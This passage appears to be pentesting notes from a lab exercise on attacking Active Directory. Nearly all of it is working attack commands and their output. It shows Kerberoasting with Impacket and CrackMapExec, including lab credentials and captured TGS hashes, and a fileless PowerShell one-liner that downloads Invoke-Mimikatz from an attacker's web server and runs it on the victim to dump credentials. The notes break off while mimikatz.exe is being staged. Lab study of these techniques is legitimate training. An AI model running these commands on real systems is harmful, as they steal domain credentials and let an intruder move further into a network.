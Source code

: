 It will be able to retrieve both `krbtgt` and `SQLService` if using userfile 

```bash
┌──(kali㉿kali)-[~/thm]
└─$ GetUserSPNs.py -dc-ip 10.10.104.42 CONTROLLER.local/Administrator:'P@$$W0rd' -usersfile userfile.txt -request -outputfile tgs_hash.txt
Impacket v0.10.1.dev1+20230511.163246.f3d0b9e - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
$krb5tgs$18$krbtgt$CONTROLLER.LOCAL$*krbtgt*$8facc4acada694d392981216$3da7515f6817c79c65a2a7076b70ea36f001e343d5dfeafadc3...
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$SQLService*$2b778eda8560262829da55a4c6dc8868$f9fbd0627bef617b9f0ff3b62a887d8d...
```

#### Using CrackMapExec

> Not recommended, very slow and buggy

```bash
crackmapexec ldap 10.10.104.42 -u "SQLService" -p "MYpassword123#" --kerberoasting KERBEROASTING
```

## Dumping hashes w/ mimikatz
---

### Preparation

### Fileless (PowerShell)

Execute mimikatz directly in memory is more stealthy

Attacker Side:

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell/Invoke-Mimikatz]
└─$ python3 -m http.server 80
```

On Victim:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> iex (new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-Mimikatz.ps1"); Invoke-Mimikatz
```

### Windows Binary

**Setup Share Folder**

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell]
└─$ mimikatz

> mimikatz ~ Uses admin rights on Windows to display passwords in plaintext

/usr/share/windows-resources/mimikatz
...
└── x64
    ├── mimidrv.sys
    ├── mimikatz.exe
    ├── mimilib.dll
    └── mimispool.dll
    
┌──(kali㉿kali)-[/usr/share/windows-resources/mimikatz]
└─$ cp x64/mimikatz.exe /tmp/www

┌──(kali㉿kali)-[/tmp/www]
```